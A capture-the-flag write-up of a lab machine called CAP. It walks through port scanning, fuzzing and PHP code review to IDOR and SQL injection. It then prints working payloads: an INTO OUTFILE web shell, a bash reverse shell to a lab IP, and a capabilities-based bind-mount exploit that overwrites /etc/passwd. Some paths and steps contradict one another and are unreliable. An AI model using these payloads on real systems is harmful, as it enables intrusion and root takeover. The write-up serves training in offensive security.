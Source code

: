 ```yaml
---
title: 'CAP Writeup'
date: '2024-11-14'
tags: ['API REST', 'SQLI', 'IDOR', 'Linux', 'Hacking Club']
draft: false
summary: 'The application has the following vulnerabilities: endpoint enumeration via FUZZ, SQL Injection, remote command execution (RCE), and privilege escalation via Linux capabilities.'
images: ['/static/images/cap-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/cap-writeup-images/default.png)

---

### **Port Scanning**

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 ae:5c:8b:8d:2f:10:85:62:01:ea:74:f5:49:38:02:33 (RSA)
|   256 64:e1:6d:0e:6c:53:87:eb:2a:07:38:6a:34:47:fc:b4 (ECDSA)
|_  256 08:53:53:7e:20:20:6e:21:9b:0c:36:fa:2b:11:73:f4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 (() PHP/7.4.15)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Site doesn't have a title (application/json).
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: Apache/2.4.48 () PHP/7.4.15
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
3306/tcp open  mysql   MariaDB (unauthorized)

```

---

## **Enumeration**

`http://172.16.3.201`

![cap](/static/images/cap-writeup-images/image.png)

### Fuzzing

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.16.3.201/FUZZ -e .php,.zip -ic`

Forgot to take a screenshot 😄

```bash
backup.zip              [Status: 200, Size: 59088, Words: 251, Lines: 209, Duration: 214ms]

```

File **backup.zip** found via fuzzing.

![cap 1](/static/images/cap-writeup-images/image1.png)

After unzipping, we have the application code:

![cap 2](/static/images/cap-writeup-images/image2.png)

The application is built with Slim, a PHP framework primarily used for creating web applications and simple but powerful APIs.

### Code Review

Temos a rota `/_ul/:controller/(:parameter)`

![cap 3](/static/images/cap-writeup-images/image3.png)

- `/_ul/`: The URL starts with /\_ul/, which might indicate an API or specific functionality.
- `:controller`: This is a dynamic parameter. In Slim, **:parameter** means that this URL segment is captured and passed as a function argument. In this case, it uses the **usuarios** class of the API.
- `(/:parameter)`: This parameter is optional, as indicated by the parentheses. If present, it is passed to the function; otherwise, it defaults to null.

The **usuarios** class, used by the **:parameter**, performs a database query to retrieve user information.

![cap 4](/static/images/cap-writeup-images/image4.png)

So the complete route would be `/_ul/usuarios/{id}`, where id is the user input for database queries.

`http://172.16.3.201/_ul/usuarios/1`

![cap 5](/static/images/cap-writeup-images/image5.png)

We can see that the API is vulnerable to IDOR.

`http://172.16.3.201/_ul/usuarios/2`

![cap 6](/static/images/cap-writeup-images/image6.png)

Besides IDOR, we can identify SQL Injection due to the lack of input sanitization in database queries.

![cap 7](/static/images/cap-writeup-images/image7.png)

Passing a single quote breaks the query.

![cap 8](/static/images/cap-writeup-images/image8.png)

Reviewing the code, we see that the API makes a POST request that can be leveraged to upload a web shell.

The **include_once** function includes and executes the specified file, allowing for a web shell.

![cap 9](/static/images/cap-writeup-images/image9.png)

The web shell would be stored at `/var/www/html/classes/webshell.php`

`3 UNION SELECT 1,"<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/classes/shell.class.php'#`

![cap 10](/static/images/cap-writeup-images/image10.png)

The application returned null, meaning it worked!

To access the web shell, send a POST request to `/_ul/shell.php?cmd=id`

![cap 11](/static/images/cap-writeup-images/image11.png)

---

## Foot Hold

`bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'`

Note: Encode the payload using CTRL+U in Burp.

![cap 12](/static/images/cap-writeup-images/image12.png)

![cap 13](/static/images/cap-writeup-images/image13.png)

---

## Privillege Escalation

`getcap -r / 2>/dev/null`

![cap 14](/static/images/cap-writeup-images/image14.png)

```
cp /etc/passwd ./ # Create a copy of /etc/passwd
openssl passwd -1 -salt abc password  # Generate a hash for /tmp/passwd
nano /etc/passwd # Change root password to 'password'

```

![cap 15](/static/images/cap-writeup-images/image15.png)

Finally, execute `exploit.py`

```python
#exploit.py
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/tmp/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```

![cap 16](/static/images/cap-writeup-images/image16.png)

### Reference

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities

---

## Proof

![cap 17](/static/images/cap-writeup-images/image17.png)
